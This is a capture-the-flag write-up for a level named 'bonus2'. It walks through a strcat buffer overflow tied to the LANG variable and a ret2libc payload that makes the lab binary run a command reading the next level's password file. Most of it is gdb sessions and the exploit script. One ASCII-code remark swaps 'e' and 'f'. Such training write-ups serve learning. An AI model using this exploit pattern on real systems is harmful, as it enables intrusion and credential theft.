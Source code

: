# Speaking in LANG's (bonus2)

This [binary](source.c) will greet the user differently base on the `LANG`
environment variable. To do anything it requires two arguments. These arguments
are copied back to back in memory. If the first one is big enough, meaning it
actually contains 40 bytes of data without any null byte, the second one is
going to be concanated to it in memory. And then both arguments are going to be
used down the line even though only the first one was to be used. This allows us
to perform a buffer overflow on the `strcat` call in the _greetuser_ function.

This call will concatenate the user input with a custom greeting that will be
more or less long depending on the language:

```shell
# run gdb on the binary
gdb ./bonus2
(gdb) p strlen("Hello ")
$1 = 6
(gdb) p strlen("Goedemiddag! ")
$2 = 13
(gdb) p strlen("Hyvää päivää ")
$3 = 18
(gdb) quit
# test with the finnish version
LANG=fi ./bonus2 "aaaaaaa" "bbbbbbb"
Hyvää päivää aaaaaaa
```

Here, the longer the better since it will allow us to overwrite more data in
memory. Now let's make this buffer overflow and see where is _greetuser_'s
return address:

```shell
# set the LANG to the value we want
(gdb) set environment LANG=fi
# run with arguments filling the entire buffers
(gdb) run `python -c 'print "a" * 40'` `python -c 'print "aaaabbbbccccddddeeeeffffgggghhhh"'`
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh

Program received signal SIGSEGV, Segmentation fault.
0x66666565 in ?? ()
```

0x66 is the ascii code for 'e' and 0x65 for 'f'. This means that the return
address starts at the 18th byte of our second argument and that we have 10 more
bytes we can overwrite (not counting the null byte added at the end by
`strcat`). This is where the fun begins. What we're gonna do is a ret2libc like
in [level2](../level2):

| padding (18) | system (4) | exit (4)   | SHELL's address |
|--------------|------------|------------|-----------------|
| 0x616161...  | 0xb7e6b060 | 0xb7e5ebe0 | 0xbffffdc1      |

This is what the second argument looks like. For this to work we need also to
set `LANG` to "fi" and put the command we want to execute in the `SHELL` env.

Here's the script that does all that:

```shell
export SHELL="cat /home/user/bonus3/.pass"
export LANG=fi
ARG1=$(python -c 'print "a" * 40')
ARG2=$(python -c 'print "b" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xbf\xff\xfd\xc1"[::-1]')
./bonus2 $ARG1 $ARG2
# outputs -> 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

> The tricky part here was finding the SHELL env variable's address. For this we
> used a little helper [program](env_finder.c) which we used to get the address
> it was in function of the number of arguments and of the environment. Even
> then, the address was not exact. The result was found by trial and error based
> on the errors returned by the failing `sh` command.
